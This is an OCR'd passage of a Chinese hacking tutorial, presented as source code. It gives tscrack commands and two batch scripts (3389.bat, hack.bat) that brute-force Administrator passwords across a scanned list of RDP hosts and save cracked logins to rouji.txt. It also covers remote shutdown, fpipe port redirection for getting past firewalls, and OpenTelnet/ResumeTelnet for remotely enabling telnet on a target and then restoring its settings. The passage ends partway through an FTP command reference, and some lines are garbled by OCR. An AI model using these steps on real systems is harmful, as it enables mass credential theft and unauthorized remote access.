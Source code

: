 ```cmd
-p 使用－p后面的密码 
-D 登录主页面 
用法示例 
tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码 
tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户 
@if not exist ipcscan.txt goto noscan 
@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i 
nscan 
@echo 3389.txt no find or scan faild 
(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt) 
3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat 
@if not exist tscrack.exe goto noscan 
@tscrack %1 -l administrator -w pass.dic >>rouji.txt 
:noscan 
@echo tscrack.exe no find or scan faild 
(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就 可以等待结果了) 
hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存 在rouji.txt文件中。 


5、其它： 

Shutdown.exe 
Shutdown //IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。） 
fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙） 
fpipe -l 80 -s 1029 -r 80 www.sina.com.cn 当有人扫锚你的80端口时，他扫到的结果会完全是www.sina.com.cn的主机信息 
Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的 88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。 
OpenTelnet.exe (远程开启telnet工具) 
opentelnet.exe //IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet //ip 连接上对方。 
NTLM认证方式：０：不使用NTLM身份验证；１：先尝试NTLM身份验证，如果失败，再使用用户名和密码；２：只使用NTLM身份验证。 


ResumeTelnet.exe (OpenTelnet附带的另一个工具) 
resumetelnet.exe //IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。 


#10 十： 
6、FTP命令详解： 

FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学 习使用进行后台FTP下载，那么就必须学习FTP指令。 


FTP的命令行格式为： 
ftp -v -d -i -n -g [主机名] ，其中 

-v 显示远程服务器的所有响应信息； 
-n 限制ftp的自动登录，即不使用；.n etrc文件； 
-d 使用调试方式； 
-g 取消全局文件名。 

FTP使用的内部命令如下(中括号表示可选项): 


1.![cmd[args]]：在本地机中执行交互shell，exit回到ftp环境，如：!ls*.zip 
2.$ macro-ame[args]： 执行宏定义macro-name。 


3.account[password]： 提供登录远程系统成功后访问系统资源所需的补充口令。 
4.append local-file[remote-file]：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。 


```